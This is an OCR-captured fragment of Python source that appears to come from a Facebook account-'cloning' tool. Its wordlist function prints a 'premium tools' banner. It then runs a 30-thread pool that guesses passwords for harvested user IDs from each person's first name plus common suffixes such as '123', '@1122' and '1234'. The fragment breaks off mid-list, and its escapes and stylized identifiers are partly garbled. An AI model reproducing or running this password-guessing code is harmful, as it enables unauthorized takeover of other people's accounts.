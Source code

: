         method.append('mobile')
    passwrd()
    exit() 
 
#-------------------[ BAGIAN-WORDLIST ]------------#
 
def passwrd():
    os.system('clear')
    print(logo)
    print(f"\033[1;93m[\033[1;93m√\033[1;93m] \033[93;1\x1b[1;97m𝚈𝙾𝚄𝚁 𝚃𝙾𝙾𝙻𝚂 𝙰𝙲𝚃𝙸𝚅𝙴 \x1b[38;5;50m[𝙿𝚁𝙴𝙼𝙸𝚄𝙼] ")
    print(f"\033[1;93m[\033[1;93m√\033[1;93m] \033[93;1\x1b[1;97m𝚄𝚂𝙴𝚁 𝙽𝙰𝙼𝙴\033[1;93m :\033[1;96m "+𝚞𝚗𝚊𝚖𝚎)
    print("\033[1;93m[\033[1;93m√\033[1;93m] \033[10;93m𝚃𝙾𝙳𝙰𝚈'𝚂 𝙳𝙰𝚃𝙴 :\x1b[38;5;50m "+𝚍𝚊𝚝𝚎)
    print('\033[1;93m[\033[1;93m√\033[1;93m] \033[41m\x1b[1;97m𝚈𝙾𝚄𝚁 𝚃𝙾𝚃𝙰𝙻 𝙸𝙳𝚣 \033[0;97m:\x1b[38;5;50m ',str(len(id)))
   # print("\033[1;93m[\033[1;93m√\033[1;93m] \033[41m\x1b[1;97m𝚂𝚃𝙰𝚁𝚃𝙴𝙳 𝚈𝙾𝚄𝚁 𝙲𝙻𝙾𝙽𝙸𝙽𝙶 𝚃𝙸𝙼𝙴\033[0;97m :> \x1b[38;5;50m"+time.strftime("%H:%M")+" "+ tag)
    print("\033[1;93m[\033[1;93m√\033[1;93m] \033[95m𝙲𝙻𝙾𝙽𝙸𝙽𝙶 𝚂𝙿𝙴𝙴𝙳 𝚂𝚄𝙿𝙴𝚁 𝚂𝙻𝙾𝚆-!💚")
    print(f'\033[1;93m[\033[1;93m√\033[1;93m] \033[1;96m𝚄𝚂𝙴=[𝙵𝙻𝙸𝙶𝙷𝚃 𝙼𝙾𝙳𝙴 𝙵𝙾𝚁 𝚂𝙿𝙴𝙴𝙳 𝚄𝙿💙] ')
    print('\x1b[38;5;50m===============================================')
    with tred(max_workers=30) as pool:
        for yuzong in id2:
            idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
            frs = nmf.split(' ')[0]
            pwv = []
            if len(nmf)<6:
                if len(frs)<3:
                    pass
                else:
                    pwv.append(frs+'12')
                    pwv.append(frs+'22')
                    pwv.append(frs+'@12')
                    pwv.append(frs+'4455')
                    pwv.append(frs+'00')
                    pwv.append(frs+'123')
                    pwv.append(frs+'1234')
                    pwv.append(frs+'@1234')
                    pwv.append(frs+'123456')
                    pwv.append(nmf)
                    pwv.append('57273200')
                    pwv.append(frs+'@123')
                    pwv.append(frs+'@')
                    pwv.append(frs+'@@')
                    pwv.append(frs+'@#')
                    pwv.append(frs+'1122')
                    pwv.append(frs+'11')
                    pwv.append(frs+'#11')
                    pwv.append(frs+'@1122')
                    pwv.append(frs+'@11')
                    pwv.append(frs+'@22')
                    pwv.append(frs+'##')                
            else:
                if len(frs)<3:
                    pwv.append(nmf)
                else:
                    pwv.append(frs+'12')
                    pwv.append(frs+'22')
                    pwv.append(frs+'@12')
                    pwv.append(frs+'4455')
                    pwv.append(frs+'00')                
                    pwv.append(frs+'123')